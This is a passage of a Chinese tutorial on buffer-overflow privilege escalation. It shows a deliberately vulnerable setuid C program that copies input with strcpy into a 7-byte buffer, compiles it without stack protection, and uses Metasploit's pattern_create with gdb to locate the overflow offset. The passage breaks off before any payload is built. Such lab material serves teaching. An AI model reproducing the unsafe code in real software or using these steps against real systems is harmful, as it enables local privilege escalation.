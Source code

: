 0x04 实战演练
=====

含有缓冲区溢出漏洞的程序源代码如下：

```
/*vuln.c*/
#include <stdio.h>

/*small buffer vuln prog*/
int main(int argc, char* argv[]) {
    char buffer[7];
    strcpy(buffer, argv[1]);
    return 0;
}

```

我们关闭系统的ASLR保护机制之后，再使用root用户编译：

```
# gcc  -fno-stack-protector  -o  vuln  vuln.c

```

然后添加SET-UID：`# chmod u+s vuln`

然后退出root用户，切换到普通用户模式：`# exit`

现在我们可以开始以普通用户权限进行提权攻击了！整个攻击工作可以分为两个大的步骤：1)确定漏洞buffer的大小；2)开始构建攻击buffer。

### 4.1 确定漏洞buffer大小

为方便快速确定大小，我们可以借助metasploits提供的pattern_create.rb和pattern_offset脚本。前者用于生成特殊的输入数据，后者用于帮助确定指定数据在该输入数据中的偏移值。

pattern_create.rb的使用方式如下：

```
Usage: pattern_create.rb length [set a] [set b] [set c]

```

这里我们使用pattern_create.rb 250生成250字节的输入数据:

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A

```

然后使用gdb调试目标程序：

```
chouchou@ubuntu:~/security/flaws/return2libc$ gdb  ./vuln -q
Reading symbols from ./vuln...(no debugging symbols found)...done.
>>> r  Aa0……i2A(省略部分输入数据)
回车之后，gdb输出如下错误数据：
Program received signal SIGSEGV, Segmentation fault.
0x61413661 in ?? ()
Traceback (most recent call last):
  File "<string>", line 701, in lines
  File "<string>", line 116, in run
gdb.error: No function contains program counter for selected frame.

```
